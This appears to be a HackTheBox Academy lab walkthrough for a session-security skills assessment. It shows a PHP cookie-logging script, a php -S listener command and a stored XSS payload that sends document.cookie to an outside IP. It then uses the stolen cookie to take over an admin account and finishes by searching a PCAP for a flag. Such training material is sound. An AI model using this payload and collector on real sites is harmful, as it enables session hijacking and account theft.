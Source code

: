 ```yaml
---
title: "[HTB] Session Security"
excerpt: "**Session Security** Module Walkthrough - HackTheBox Academy"
header:
  overlay_image: /assets/images/HTB_Session_Security/banner.png
  teaser: /assets/images/HTB_Session_Security/upper.jpg
  og_image: /assets/images/HTB_Session_Security/upper.jpg
categories:
  - HTB-Academy
tags:
  - HTB-Academy
  - Bug Bounty Hunter
  - Penetration Tester
  - Web
  - OWASP TOP 10
  - Session Security
  - Cookie
  - PHP
  - Payload
layout: single
toc: true
---
```

![image-center](\assets\images\HTB_Session_Security\upper.jpg)

## Disclaimer
<img style="float: left; padding-right:10px" src="\assets\images\disclaimer.png" width="110" height="110">

<div style="text-align: justify">The following post may contain spoilers. Use it as a guide or support. It is always better to try it by yourself!</div>
<div style="text-align: justify">Enjoy :)</div>

## Resources
<img style="float: left; padding-right:10px" src="\assets\images\github.avif" width="110" height="110">
<div style="text-align: justify">All resources can be found in the following GitHub repository:</div>
[R4fik1-HTB_Session_Security_Repository](https://github.com/r4fik1/HTB_Academy/tree/main/HTB_Session_Security)

## Module Summary

Any inefficiencies or misconfigurations in the session-handling implementation of a web application, service, or API can have devastating consequences that range from information leakage and inadvertent user actions all the way to Account Takeover (ATO) and remote code execution.

As you can imagine, it is of paramount importance to thoroughly test the session-handling logic of a web application being assessed. That said, testing the robustness of a session-handling implementation is not a small feat. This is because chaining (seemingly unrelated) vulnerabilities is often required to successfully attack a user's session.

Worry not, though; in this module, we will provide you with a highly hands-on experience around attacking a user's session and the possible paths that you can take to achieve that.

In this module, you will have the opportunity to practice manual exploitation of the following:

- Session Hijacking
- Session Fixation
- XSS (Cross-Site Scripting) <-- With a focus on user sessions
- CSRF (Cross-Site Request Forgery)
- Open Redirect <-- With a focus on user sessions
  
We will also discuss remediation guidance regarding the abovementioned vulnerabilities.

## Session Security - Skills Assessment

>**Q. Read the flag residing in the admin's public profile. Answer format: [string]**

<div style="text-align: justify">1. We utilize virtual hosts (vhosts) to house the web applications to simulate a large, realistic environment with multiple webservers. Since these vhosts all map to a different directory on the same host, we have to make manual entries in our /etc/hosts file on the Pwnbox or local attack VM to interact with the lab.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\1.png)

<div style="text-align: justify">2. Access to http://minilab.htb.net. First you have to log in with the credentials provided in the statement. Enter the credentials and click on login.</div>
```
Email: heavycat106
Password: rocknrol
```
![image-center](\assets\images\HTB_Session_Security\Q11\2.png)

<div style="text-align: justify">3. Create a PHP script that saves the cookie.</div>
```sh
nano log.php
```
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

![image-center](\assets\images\HTB_Session_Security\Q11\3.png)

<div style="text-align: justify">4. Open a listener in the same folder where the PHP script created in the previous step is.</div>
```sh
php -S 10.10.15.60:8000
```
![image-center](\assets\images\HTB_Session_Security\Q11\4.png)


<div style="text-align: justify">5. Access the "app" section, enter the following payload in the country field and click on the "Save" button.</div>
```php
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://10.10.15.60:8000/log.php?c=' + document.cookie;"></video>
```
![image-center](\assets\images\HTB_Session_Security\Q11\5.png)

<div style="text-align: justify">6. When you click on save, you are redirected to a section where you can save the data permanently. In the following screenshot it is verified that the app has accepted the payload. Click on Save.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\6.png)

<div style="text-align: justify">7. Access http://minilab.htb.net/submit-solution and see how the success field is "false".</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\7.png)

<div style="text-align: justify">8. Insert the following link that contains the profile with the payload as a parameter.</div>
```
http://minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
```
![image-center](\assets\images\HTB_Session_Security\Q11\8.png)

<div style="text-align: justify">9. We check the listener and see what looks like a cookie thanks to the payload, the script and the listener.</div><br>
```sh
[Thu Feb  9 11:11:28 2023] 10.129.19.198:37042 [302]: GET /log.php?c=auth-session=s%3AZMEqyRAhF2Ta7gHyxUZCWu4DaPb2_KT0.ES2ciTNMldjUBsKFonTFKF%2B09jHx6I3lIJFfQGjTkmc
```
![image-center](\assets\images\HTB_Session_Security\Q11\9.png)

<div style="text-align: justify">10. In chrome introduce that cookie in storage and update.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\10.png)

<div style="text-align: justify">11. The admin profile has been accessed within the app. Click on the "Change Visibility" button.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\11.png)
<div style="text-align: justify">12. Finally, click on "Make Public!" button.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\12.png)
<div style="text-align: justify">13. Here we see the first flag and a button to get the second flag. Clicking on the "Flag2" button downloads a pcap file.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\13.png)

>**Q. Go through the PCAP file residing in the admin's public profile and identify the flag. Answer format: FLAG{string}
wireshark**

<div style="text-align: justify">1. We open Wireshark as "superuser" and click on "Open Capture File". Select the previously downloaded file.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\14.png)

<div style="text-align: justify">2. Once the file is open, we look for the string "FLAG" in the search engine and the second Flag is obtained.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\15.png)